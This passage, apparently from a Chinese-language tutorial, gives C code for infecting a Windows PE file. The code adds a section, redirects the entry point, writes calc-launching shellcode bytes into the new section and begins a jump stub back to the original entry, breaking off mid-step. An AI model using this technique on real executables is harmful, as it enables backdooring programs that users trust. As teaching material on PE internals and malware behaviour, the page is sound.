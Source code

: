3. 根据新加的节表头的VA地址，设置程序的入口点

   ```c
   PIMAGE_SECTION_HEADER pimageSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD)pOptionalHeader + optionHeaderSize);
   PIMAGE_SECTION_HEADER pSection = pimageSectionHeader + numberOfSections - 1;
   DWORD lastSectionSizeInMem;
   // 判断
   if (pSection->SizeOfRawData % pOptionalHeader->SectionAlignment == 0) {
   	lastSectionSizeInMem = pSection->SizeOfRawData;
   }
   else {
   	lastSectionSizeInMem = ((pSection->SizeOfRawData / pOptionalHeader->SectionAlignment) + 1) * pOptionalHeader->SectionAlignment;
   }
   // 程序入口点
   DWORD NewAddressOfEntryPoint = pSection->VirtualAddress + lastSectionSizeInMem;
   pOptionalHeader->AddressOfEntryPoint = NewAddressOfEntryPoint;
   ```

4. 新增节表（文件末尾） 添加注入的shellcode

   32位程序下shellcode：

   ```c
   unsigned char* shell = (unsigned char*)((DWORD)FileAddress + shellcodeInjectAddress);
   char ShellCode[] =
   "\x31\xD2\x52\x68\x63\x61\x6C\x63\x54\x59\x52\x51\x64\x8B\x72\x30\x8B\x76\x0C\x8B\x76\x0C\xAD\x8B\x30\x8B\x7E\x18\x8B\x5F\x3C\x8B\x5C\x3B\x78\x8B\x74\x1F\x20\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17\x42\x42\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xF0\x8B\x74\x1F\x1C\x01\xFE\x03\x3C\xAE\xFF\xD7";
   // 参考 https://github.com/peterferrie/win-exec-calc-shellcode
   memcpy(shell, ShellCode, strlen(ShellCode));
   shell = shell + strlen(ShellCode);
   ```

   64位程序下shellcode：

   ```c
   unsigned char* shell = (unsigned char*)((DWORD)FileAddress + shellcodeInjectAddress);
   char ShellCode_64[] =
   	"\x6A\x60\x5A\x68\x63\x61\x6C\x63\x54\x59\x48\x29\xD4\x65\x48\x8B"
    	"\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48\x8B\x30\x48\x8B"
   	"\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B\x74\x1F\x20\x48\x01\xFE"
   	"\x8B\x54\x1F\x24\x0F\xB7\x2C\x17\x8D\x52\x02\xAD\x81\x3C\x07\x57"
   	"\x69\x6E\x45\x75\xEF\x8B\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48"
   	"\x01\xF7\x99\xFF\xD7";
   //参考 https://github.com/peterferrie/win-exec-calc-shellcode
   memcpy(shell, ShellCode_64, strlen(ShellCode_64));
   shell = shell + strlen(ShellCode_64);
   ```

5. 在shellcode后面添加jmp指令，转到原始入口点

   32位程序：

   ```c
   // shellcode后续的JMP内容
   // \xE8\x00\x00\x00\x00 \x58 \x83\xE8\x4D \x2D\x00\x00\x00\x00 \x05\x00\x00\x00\x00 \xFF\xE0
       
   // call 0x00000000; 
   // pop eax;
   // 防止字符串被截断
   memcpy(shell, "\xE8\x00\x00\x00\x00\x58", 6);
   shell = shell + 6;
   //sub eax,0x4d [strlen(ShellCode)+5]
   unsigned char cmd_1[] = "\x83\xE8\x4D";
   memcpy(shell, cmd_1, 3);
   shell = shell + 3;
   //sub eax,0x00000000;//
   ```